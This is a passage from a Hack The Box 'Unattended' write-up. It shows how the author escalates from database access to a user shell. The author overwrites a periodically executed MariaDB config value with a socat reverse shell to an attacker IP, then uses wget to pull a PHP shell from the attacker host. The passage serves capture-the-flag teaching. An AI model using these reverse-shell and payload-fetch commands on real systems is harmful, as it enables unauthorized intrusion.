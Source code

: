 ```
| 105 | session_handler         | file                                                                     |         
+-----+-------------------------+--------------------------------------------------------------------------+                                                                                                      
52 rows in set (0.00 sec)

MariaDB [neddy]>
```
<br> The row with id 86 looks interesting. It has a value of some `perl` scripts :
```
/home/guly/checkbase.pl;/home/guly/checkplugins.pl;
```
<br> Apparently these scripts get executed from time to time, we can't read these scripts or replace them, but we can change the value of that configuration from the database and put a reverse shell command. There's no `nc` so I used `socat` :
```
MariaDB [neddy]> update config set option_value="socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.xx.xx:443;" where id=86;
Query OK, 0 rows affected (0.00 sec)
Rows matched: 1  Changed: 0  Warnings: 0                                                     

MariaDB [neddy]> select * from config;
select * from config;                                                                       
----------------
 Removed Output
----------------
|  86 | checkrelease            | socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.xx.xx:443; |
----------------
 Removed Output
----------------
52 rows in set (0.00 sec)

MariaDB [neddy]>
```
![](/images/hackthebox/unattended/18.png)
<br> We owned user.
<br>
<hr>
## initrd, Root Flag
<br> After getting a shell as `guly` I terminated my `meterpreter` session as `www-data` and got a new one as `guly` :
```
guly@unattended:/tmp$ wget http://10.10.xx.xx/shell.php
wget http://10.10.xx.xx/shell.php
--2019-08-23 13:25:49--  http://10.10.xx.xx/shell.php
Connecting to 10.10.xx.xx:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1110 (1.1K) [application/octet-stream]
```